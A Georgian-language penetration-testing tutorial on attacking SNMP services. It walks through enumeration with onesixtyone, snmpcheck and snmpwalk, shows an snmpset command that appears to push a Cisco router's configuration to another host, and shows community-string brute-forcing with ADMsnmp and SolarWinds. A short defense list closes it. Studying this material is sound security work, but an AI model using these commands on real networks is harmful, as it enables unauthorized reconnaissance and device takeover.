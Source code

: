 # თეორია ======

SNMP სერვისი ელოდება კავშირს UDP პორტ 161-ზე. SNMP იმარება ქსელური მოწყობილობების გასამართად (როუტერი, პრინეტრი, ...).
SNMP-ესთან აუთენთირება მარტივია და ტექსტის ფორმით მოძრაობს ქსელში. SNMP Management Information Base (MIB) მონაცემების მოპოვება შესაძლოა წასაკითხი community string-ების მეშვეობით, MIB-ში მონაცემების შეცვლისთვის კი ჩასაწერი community string-ებია საჭირო. MIB მონაცემების ბაზაში არის Object Identifier (OID) მონაცემები, როგორიცაა როუტერის მასივი, სტატისტიკა ქსელის შესახებ, ქსელური ინტერფეისების შესახებ. რა თქმა უნდა როუტერის მასივის ნახვა საინტერესოა შიდა ქსელში მყოფი კომპიუტერების დასადგენად.
სხვადასხვა მოწყობილობას თავისებური სპეციფიკური community string-ები მოჰყვება.
SNMP პროტოკოლის სამი ვერსია არსებობს, მესამე ვერსია უფრო დაცულია და მაშასადამე ეს უფრო პირვერ და მეორე ვერსიას ეხება.

მოკლე სტატია SNMP პროტოკოლის შესახებ: http://www.tech-faq.com/snmp.html

# onesixtyone ======

onesixtyone-ი არის SNMP-ს სკანერი.

```
# onesixtyone 192.168.1.254
```

# snmpcheck

snmpcheck-ით ინფორმაციას მოიპოვთ SNMP მოწყობილობის შესახებ.

```
# snmpcheck -t 192.168.1.254
```

# MIB-თან მიწვდომა

## snmpwalk

ხელსაწყო snmpwalk-ი არის snmp პაკეტის ერთ-ერთი პროგრამა, მას შეუძლია community string-ის გამოყენებით ნახოს MIB მონაცემთა ბაზაში შეტანილი ინფორმაცია


snmpwalk-ით Cisco როუტერის MIB მონაცებთა ბაზის ნახვა. რახან ბევრი ინფორმაციაა მხოლოდ პირველი ნაწილია ნაჩვენები.

```
# snmpwalk -c public 192.168.0.1

system.sysDescr.0 = Cisco Internetwork Operating System Software IOS

(tm) C2600 Software (C2600-IS-M), Version 12.0(6), RELEASE SOFTWARE

(fc1) Copyright (c) 1986-1999 by cisco Systems, Inc. Compiled Wed

11-Aug-99 00:16 by phanguye

system.sysObjectID.0 = OID: enterprises.9.1.186

system.sysUpTime.0 = Timeticks: (86128) 0:14:21.28

system.sysContact.0 = 

system.sysName.0 = pipex-gw.trustmatta.com

system.sysLocation.0 = 

system.sysServices.0 = 78

system.sysORLastChange.0 = Timeticks: (0) 0:00:00.00
```

სხვა გამოყემება:

```
# snmpwalk -v 2c -c public -O T -L f snmpwalk.txt 192.168.0.11
```

ამ მაგალითში ვიყენებთ snmp პროტოკოლის მეორე ვერსიას (-v 2c), ვეძებთ public community string-ებს (-c public), ადამიანისთვის გასაგები ტექსტის ბეჭვდა (-O T), ლოგების ჩაწერა snmpwalk.txt ფაილში (-L f snmpwalk.txt), იპ მისამართი 192.168.0.11.

snmpwalk-ის შესახებ: http://net-snmp.sourceforge.net/wiki/index.php/TUT:snmpwalk

## მონაცემების შეცვლა

გარკვეული მონაცემი რომ შეცვალო MIB მონაცემთა ბაზაში უნდა გაოიყენო ხელსაწყო snmpset.

მაგალითი:

```
# snmpset -r 3 -t 3 192.168.0.1 private .1.3.6.1.4.1.9.2.1.55.192.\

    168.0.50 s "cisco-config"
```

# სისუსტეების დადგენა

## NETWOX/NETWAG (ვინდოუსი ან იუნიქსი)

**წინა პირობა**

SNMP სერვისი უნდა იყოს გაშვებული მსხვერპლის კომპიუტერში. NETWOX ან NETWAG (გრაფიკული ვარიანტი) გაძლევთ საშუალებას რომ გაეცნოთ ინფორმაციებს მსხვერპლის SNMP სერვისის მიერ.

NETWAG-ში აირჩიე ნომერი 160 - SNMP WALK.

# SNMP-ს community string-ების გატეხვა

SNMP community strings ბრუტფორსი შესაძლოა SolarWInds პროგრამის მიერ

## იუნიქსი

### ADMsnmp

შეგიძლიათ იგი მოიპოვოთ შემდეგ მისამართზე: http://adm.freelsd.net/ADM/.

```
# ADMsnmp 192.168.0.1

ADMsnmp vbeta 0.1 (c) The ADM crew

ftp://ADM.isp.at/ADM/

greets: !ADM, el8.org, ansia

>>>>>>>>>>> get req name=root  id = 2 >>>>>>>>>>>
>>>>>>>>>>> get req name=public   id = 5 >>>>>>>>>>>
>>>>>>>>>>> get req name=private  id = 8 >>>>>>>>>>>
>>>>>>>>>>> get req name=write  id = 11 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 9 name = private ret =0 <<<<<<<<<
>>>>>>>>>>>> send setrequest id = 9 name = private >>>>>>>>
>>>>>>>>>>> get req name=admin  id = 14 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 10 name = private ret =0 <<<<<<<<
>>>>>>>>>>> get req name=proxy  id = 17 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 140 name = private ret =0 <<<<<<<
>>>>>>>>>>> get req name=ascend  id = 20 >>>>>>>>>>>
<<<<<<<<<<< recv snmpd paket id = 140 name = private ret =0 <<<<<<<
>>>>>>>>>>> get req name=cisco  id = 23 >>>>>>>>>>>
>>>>>>>>>>> get req name=router  id = 26 >>>>>>>>>>>
>>>>>>>>>>> get req name=shiva  id = 29 >>>>>>>>>>>
>>>>>>>>>>> get req name=all private  id = 32 >>>>>>>>>>>
>>>>>>>>>>> get req name= private  id = 35 >>>>>>>>>>>
>>>>>>>>>>> get req name=access  id = 38 >>>>>>>>>>>
>>>>>>>>>>> get req name=snmp  id = 41 >>>>>>>>>>>



<!ADM!>         snmp check on pipex-gw.trustmatta.com       <!ADM!>

sys.sysName.0:pipex-gw.trustmatta.com

name = private write access
```


## ვინდოუსი

### SolarWInds

SolarWInds არის კომერციული პროგრამა (30 დღე უფასოია; რამოდნიმე წამი შეიძლება თავდასხმის განხორციელება) გრაფიკული ინტერფეისით. მას შუძლია SNMP community strings ბრუტფორსი. SNMP-ის გარდა მას სხვა შესაძლებლობებიც აქვს.

პროგრამაში შეარჩიეთ: Security -> SNMP Bruteforce attack

როდესაც თავდამსხმელი აღმოაჩენს read-only community string, მას შეუძლია რომ ინფორმაციაბი ნახოს მსხვერპლის ქსელის შესახებ SNMP-ს მეშვეობით. შემთხვევაში მას შეუძლია გაეცნოს managed device მოწყობილობების ინფორნაციებს, შეცვალოს პარამეტრები (კონფიგურირება), ან სულაც გამორთოს კომპიუტერი.


# დაცვა

bastion servers/workstations, host-based firewalls, ძლიერი პაროლები, ძნელად გამოსაცნობი community string-ები.
